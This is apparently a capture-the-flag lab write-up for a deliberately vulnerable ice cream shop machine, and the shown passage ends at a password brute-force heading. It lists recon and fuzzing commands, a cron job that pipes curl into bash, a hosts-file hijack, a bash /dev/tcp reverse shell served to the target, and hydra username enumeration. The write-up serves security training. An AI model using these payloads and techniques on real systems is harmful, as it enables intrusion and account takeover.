## Scenario

> The vigilante hacker and Vim enthusiast has enlisted you for help! He's been tipped off that the enigmatic ice cream shop owner Chad Cherry and his creamy crew are up to something nefarious: they plan to use their totally legit business to rid the world of the greatest text editor, Vim, and replace it with their preferred editor Nano! You'll need to hack into the ice cream shop and escalate your privileges to take them down! Jex has already gained initial access and has created a backdoor account to help you out.

Add to `/etc/hosts:` `10.114.151.101 cherryontop.thm`

Access via: `http://cherryontop.thm`

Backdoor username: `notsus`

Backdoor password: `dontbeascriptkiddie`

## Initial Recon

I added the target to my hosts file and confirmed it resolved.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nano /etc/hosts

┌──(—REDACTED—㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
10.114.151.101	cherryontop.thm
```

### Port Scan

I ran a full TCP port scan first, then a targeted version/script scan against whatever came back.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.151.101 -p- -T4
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-21 16:41 +0200
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 79.86% done; ETC: 16:42 (0:00:03 remaining)
Nmap scan report for cherryontop.thm (10.114.151.101)
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.80 seconds
```

Only 22 and 80 came back open, so I followed up with version and default-script detection on just those two.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.151.101 -p22,80 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-21 16:42 +0200
Nmap scan report for cherryontop.thm (10.114.151.101)
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 85:71:e5:f3:6a:25:5b:26:53:92:8b:c7:fd:79:d8:ed (ECDSA)
|_  256 26:89:e2:75:17:23:85:ee:13:2b:ff:8c:70:78:b9:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Cherry on Top Ice Cream Shop
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
```

### Exploring the Website

Nothing stood out on the front page, where Home, About, Portfolio, Team, and Testimonial all sat. 


There was no `robots.txt`. The page source revealed an `images` directory, and navigating to it directly showed directory listing was enabled, but that was the extent of it—clicking Parent Directory just returned to the home page.



## The Base32 `user` Parameter

Clicking "Ice Cream Facts" took me to `/content.php`.



There was a facts dropdown (Fact 1–4) and a "who are you" dropdown, where the only option available to me was Guest. I chose Fact 1, Guest, and submitted. The URL turned into:

```
http://cherryontop.thm/content.php?facts=1&user=I52WK43U
```



`I52WK43U` looked like some kind of encoding. I ran it through CyberChef to identify it, and as expected it decoded to `Guest`. It was Base32.



I encoded `Admin` the same way and tried injecting it.



Just putting `IFSG22LO` in the URL did nothing. There were also no cookies. I opened dev tools to look closer—submitting the form fires a GET request. To be exhaustive, I tried changing the value in the DOM instead, but that obviously didn't work either. 





I captured the request in Burp and tried modifying it there too, and the answer was still no—the value in the response stayed the Guest one.





I moved away from the `user` parameter for the moment and tested the `facts` parameter instead.

## Fuzzing for More

### Facts Parameter

I created a file with the numbers 1–1000 and ran it through ffuf against the `facts` parameter, keeping the Guest token in `user`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ for num in {1..1000}; do echo $num >> nums.txt; done
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w ./nums.txt -c -fs 2460-2470

4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 36ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 37ms]
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 37ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 34ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 34ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 34ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 2934ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 3948ms]
```

1 to 4 were the normal facts available for selection on the page. The extra hits at 20, 43, 50, and 64 turned out to be dead ends with the Guest token:

- 20 — "Nope. Just Nope."
- 43 — "Nice try! You can't touch my stuff!"
- 50 — "No secret notes for you!"
- 64 — "No Easter eggs for you!"

None of them returned anything useful at this point, so I put the `facts` parameter on hold and moved to directory and virtual host enumeration.

### Directory Fuzzing

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://cherryontop.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c 

images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 34ms]
css                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 34ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 34ms]
                        [Status: 200, Size: 13968, Words: 5633, Lines: 297, Duration: 3517ms]
bootstrap               [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 34ms]
                        [Status: 200, Size: 13968, Words: 5633, Lines: 297, Duration: 35ms]
jquery                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 34ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 42ms]
```

Nothing here stood out — just the standard asset directories and a 403 on `server-status`.

### Virtual Host Fuzzing

Given the challenge specifically instructed to add the hostname to `/etc/hosts`, I suspected there might be vhosts or subdomains to find, so I fuzzed the `Host` header.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://cherryontop.thm/ -H 'Host:FUZZ.cherryontop.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ic -c -fs 13968 

nano                    [Status: 200, Size: 10718, Words: 4093, Lines: 220, Duration: 38ms]
```

Very quickly, I got a hit: `nano`.

## The Nano Subdomain

I added it to my hosts file and visited it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
10.114.151.101	cherryontop.thm nano.cherryontop.thm
```



Again, nothing interesting in the source. Clicking Admin brought me to a login page.



I tried fuzzing for PHP files on this subdomain, but didn't really get anywhere useful beyond confirming what was there.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://nano.cherryontop.thm/FUZZ.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -ic -c 

login                   [Status: 200, Size: 2310, Words: 696, Lines: 60, Duration: 37ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 34ms]
                        [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 2539ms]
index                   [Status: 200, Size: 10718, Words: 4093, Lines: 220, Duration: 3553ms]
command                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
```

There was a `command.php`, but as is, without being authenticated, it merely redirects us to the login portal. Having basically exhausted everything I could think of for now short of brute-forcing the login, I went into the backdoor account the scenario mentioned.

## Backdoor Access as notsus

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh notsus@cherryontop.thm 
The authenticity of host 'cherryontop.thm (10.114.151.101)' can't be established.
ED25519 key fingerprint is: SHA256:fxpwqIVRLwwDP6azkn3gjsexoMvNZCLpAy4Y4ReOMNc
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cherryontop.thm' (ED25519) to the list of known hosts.
notsus@cherryontop.thm's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-102-generic x86_64)
Last login: Mon Jan 15 21:29:58 2024 from 10.0.2.15
$ whoami
notsus
```

I stablised and upgraded the shell.

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
notsus@ip-10-114-151-101:~$ export TERM=xterm-256color
notsus@ip-10-114-151-101:~$ stty rows 52 cols 236
```

There was a `txt` file in the current working directory.

```shell
notsus@ip-10-114-151-101:~$ ls
backdoor.mp4  youFoundIt.txt
notsus@ip-10-114-151-101:~$ cat youFoundIt.txt 
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!

- Jex
```

There was nothing with the SUID bit set that was owned by anyone but root either, and those all looked standard. There was nothing in bash history, nothing stood out in the environment, and I couldn't run sudo.

```shell
notsus@ip-10-114-151-101:~$ sudo -l
[sudo] password for notsus: 
Sorry, user notsus may not run sudo on ip-10-114-151-101.
```

## Privilege Escalation to bob-boba

I checked `/etc/passwd` for the full user list, since the names matched the employees shown on the website—Chad, Molly, Sam, Bob.

```shell
notsus@ip-10-114-151-101:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
chad-cherry:x:1000:1000:Chad Cherry:/home/chad-cherry:/bin/bash
molly-milk:x:1001:1001::/home/molly-milk:/bin/sh
sam-sprinkles:x:1002:1002::/home/sam-sprinkles:/bin/sh
bob-boba:x:1003:1003::/home/bob-boba:/bin/sh
notsus:x:1004:1004::/home/.notsus:/bin/sh
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
ssm-user:x:1005:1005::/home/ssm-user:/bin/sh
ubuntu:x:1006:1007:Ubuntu:/home/ubuntu:/bin/bash
```

### Finding the Cron Job

I checked the system crontab and found a job running as bob-boba. Given the hint from `youFoundIt.txt`, bob-boba was most likely the right one to pursue, indicating this as a likely vector.

```shell
notsus@ip-10-114-151-101:~$ cat /etc/crontab
SHELL=/bin/sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   bob-boba curl cherryontop.tld:8000/home/bob-boba/coinflip.sh | bash
```

That job curls `cherryontop.tld:8000/home/bob-boba/coinflip.sh` every minute and pipes it straight into bash as bob-boba. I had no access to that file, since it sat in `/home/bob-boba`. 

### Hijacking cherryontop.tld

I checked whether `/etc/hosts` on the target was writable.

```shell
notsus@ip-10-114-151-101:~$ ls -l /etc/hosts | grep hosts
-rw-rw-rw- 1 root adm 312 Apr  8  2023 /etc/hosts
```

It was. I added an entry pointing `cherryontop.tld` at my own attacking machine, so the cron job's curl would fetch my file instead.

```shell
notsus@ip-10-114-151-101:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 cherryontop.com
127.0.0.1 cherryontop.thm
127.0.0.1 nano.cherryontop.thm
127.0.1.1 nanocherryctf

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

—REDACTED— cherryontop.tld
```

Then I reconstructed the path structure the curl command was looking for and dropped a reverse shell payload in it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ mkdir -p ./home/bob-boba

┌──(—REDACTED—㉿kali)-[~]
└─$ cd ./home/bob-boba

┌──(—REDACTED—㉿kali)-[~/home/bob-boba]
└─$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/4444 0>&1"' > coinflip.sh 

┌──(—REDACTED—㉿kali)-[~/home/bob-boba]
└─$ chmod +x coinflip.sh 
```

I set up an HTTP server to serve that path, and a netcat listener to catch the connection.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.114.151.101 - - [21/Nov/2026 17:44:02] "GET /home/bob-boba/coinflip.sh HTTP/1.1" 200 -
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.151.101] 52300
bash: cannot set terminal process group (2208): Inappropriate ioctl for device
bash: no job control in this shell
bob-boba@ip-10-114-151-101:~$ 
```

The cron job fired, curl fetched my file from the webserver, and it got piped into bash, giving me a shell as bob-boba. I stabilised and upgraded it the same way as before.

### Chad Cherry's Third Password Segment

```shell
bob-boba@ip-10-114-151-101:~$ ls
bobLog.txt  chads-key3.txt  coinflip.sh
bob-boba@ip-10-114-151-101:~$ cat coinflip.sh 
#!/bin/bash

# Bob Boba's coin flip!
# Helps me decide if I show mercy on those in debt to me!

result=$(( RANDOM % 2 ))

if [ $result -eq 0 ]; then
    echo "Heads"
else
    echo "Tails"
fi
bob-boba@ip-10-114-151-101:~$ cat bobLog.txt 
Bob Log

4/10/20XX

One of the funniest parts of working for Chad is both how much debt we have and how much other people owe us!

I know that Chad uses me as both his accountant and debt collector, but really, we need to hire more henchmen.

Perhaps we can convince the Arch Linux users to join our cause... Hopefully none of them like Vim, after all, Chad intends to eliminate every trace of the text editor and replace it with Nano.

Either way, I gotta really protect this password segment Chad gave me in case of emergencies!

Bob
bob-boba@ip-10-114-151-101:~$ cat chads-key3.txt
—REDACTED—
```

### Question — What is the third part of Chad Cherry's password?

**Answer:** `—REDACTED—`

I couldn't sudo without bob's password, and I couldn't find anything owned by Molly or Sam except their home directories, which I had no access into.

```shell
bob-boba@ip-10-114-151-101:~$ find / -type f -name "*key*.txt" 2>/dev/null
/snap/lxd/33246/share/lxd-documentation/_sources/reference/manpages/lxc/storage/bucket/key.md.txt
/snap/lxd/28155/share/lxd-documentation/_sources/reference/manpages/lxc/storage/bucket/key.md.txt
/usr/share/perl/5.34.0/Unicode/Collate/allkeys.txt
/usr/share/perl/5.34.0/Unicode/Collate/keys.txt
/home/bob-boba/chads-key3.txt
```

Nothing else turned up, so I figured the only way forward from here was to brute-force the nano Admin Portal.

## Brute-Forcing the Nano Admin Portal

### Username Enumeration

Sending `admin:admin` to the login portal with dev tools up returned "This user doesn't exist."



Since the site helpfully tells us whether an username exists, we can use it as a filter for enumeration using hydra. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p placeholder nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:F=This user doesn't exist" -f 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://nano.cherryontop.thm:80/login.php:username=^USER^&password=^PASS^&submit=:F=This user doesn't exist
[STATUS] 2728.00 tries/min, 2728 tries in 00:01h, 8292727 to do in 50:40h, 16 active
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: placeholder
[STATUS] attack finished for nano.cherryontop.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

After a fair bit, it found `puppet`.

### Password Brute Force

